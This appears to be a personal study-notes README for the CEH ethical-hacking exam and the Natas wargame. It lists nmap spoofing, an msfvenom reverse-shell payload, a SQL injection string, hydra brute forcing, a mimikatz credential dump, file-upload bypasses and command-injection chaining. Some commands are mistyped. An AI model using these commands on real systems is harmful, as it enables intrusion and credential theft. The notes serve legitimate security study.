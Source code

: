 # CEH
## Commands tips
use `traceroute` for getting we pass what routers to get to network.
## Websites and application tips
> this [site](https://www.iplocation.net/) says the ip is for where, and this [site](who.is) says who create this website.

> for getting special file type in google add `filetype:[type]` after **website domain** and add `site:` before it.
>
> use `maltego` to get datas from a website.

## ip spoofing
ip spoofing means you stealing ip when some ips have access.
we use **nmap** for scaning ports. use it like this:
```console
nmap [ip address] [option] [port]
```
for example for scaning port 80 in specific ip, do like this
```console
nmap 192.168.1.6 -Pn -p 80
```
for changing ip with nmap do this:
```console
nmap -S [new ip] -Pn -p [port] -e [interface] [ip target]
```
## ICMP
### Ping
ping means ip can you here me?
type **one** *successed*
```console
ping 4.2.2.4
# reply from 4.2.2.4: bytes=32 time=30ms TTL=46
```
type **two** *request timed out*: it means somewhere we have problem but we don't know where
```console
ping 4.2.2.4
# request timed out
```
type **three** *destination host unreachable*: you must focus on ***reply from*** destination after that ip is down but may be
```console
ping 4.2.2.4
# reply from 4.2.2.8: destination host unreachable
```
type **four** *destination net unreachable*: it means you don't have access to that network
```console
ping 4.2.24
# reply from 192.168.1.1: destination net unreachable
```
type **five** *admin prohibited*: means admin says don't give access to you
```console
ping 4.2.2.4
# reply from 4.2.2.8: communication with administer prohibited
```
### msfvenom
**msfvenom** use for making a file to add upload as payload.
```console
msfvenom -p windows/meterpreter/reverce_tcp -f war > file.war
```
in here after `-p` we must add our platform and payload type and after `-f` add format and after `>` name the file.

for changing process you can use `migrate`.
with `python3 -m http.srever [port]` you can make a server in your directory
for social engineering you can use `setoolkit` but remember you must be **root**.
for remoting desktop you must use `seth`. you can clone it from [here](https://github.com/SySS-Research/Seth)
we use `shelter` for put payload in another file.

### sql
for getting username in sql use `' or 1=1;--`
you can use `sqlmap` for checking database

# burt force
check many passwords to get password. we use `hydra`
```console
hydra -l [user] -P [password_list] protocol://ip
```
we have a password list in kali in `/user/share/rockyou.txt/`

with `load kiwi` and then use this code you can get some passwords that's are in ram as a clear text.
```console
kiwi_cmd sekurlsa::logonpasswords
```

for cracking hash, we can use ophcrack. and get the tables of it from its [website](https://ophcrack.sourceforge.io/tables.php)
## Wifi
for attacking wifi we need `airgeddon`. it must run with `sudo`.
## Android
we use `evil-droid` you can get it from [here](https://github.com/M4sc3r4n0/Evil-Droid)

# Natas
1- checking directory of website
2- check the robots.txt
> robots.txt is a file that says to **search engine** to what to do

3- whenever we don't have access except an specific adress we can make link on that adress
4- sometimes you need to change the cookies for example log in
5- with `curl` you can get access to some parts of website
6- you can see a page after `?page=`
7- when we have **command** in codes you can seprate command with `;`
8- with grep you can add -r for searching in directory
> we know grep use regex

9- sometimes you must change some cookies for access
10- if you can upload a file, you can change the format and run what you want...(use burpsuit)
11- magic number is a part of your file that shows what type is it. you can add magic number to  the first of your php file to access to uploading it. you can change magic number with `hexeditor`.
12- with `$()` you can run a new command in a command for example:
```console
echo $(ls)
# it puts ls output here
```
13- for blining sql injection(the that you can't see the result of your query request) you can use `AND sleep(10)` to check that is your query is correct or not. if your query is correct it will sleep 10 second.

# OWASP Top Ten
## os command injection
command injection means you exploit with having problems in os command.
for running to commands in **linux** you can use this methods
```consloe
ping 4.2.2.4; ls -ltrh
#both run
ping 4.2.2.4 && ls -ltrh
#if first one runs other will run
ping 4.2.2.4 || ls -ltrh
#if first command runs, second one won't run, and reverse
pwd | grep rc
#give the result of first command to second command
pwd & grep rc
#first command goes to background job and second one start then first one start again 
```
in **windows**:
```console
dir & whoami
#both run
dir | whoami
#just second one runs
```
### Out of Bond (oob)
for adding the result to a new file we use this sign `>`. if we use `>>` it append in a file that we had it before.
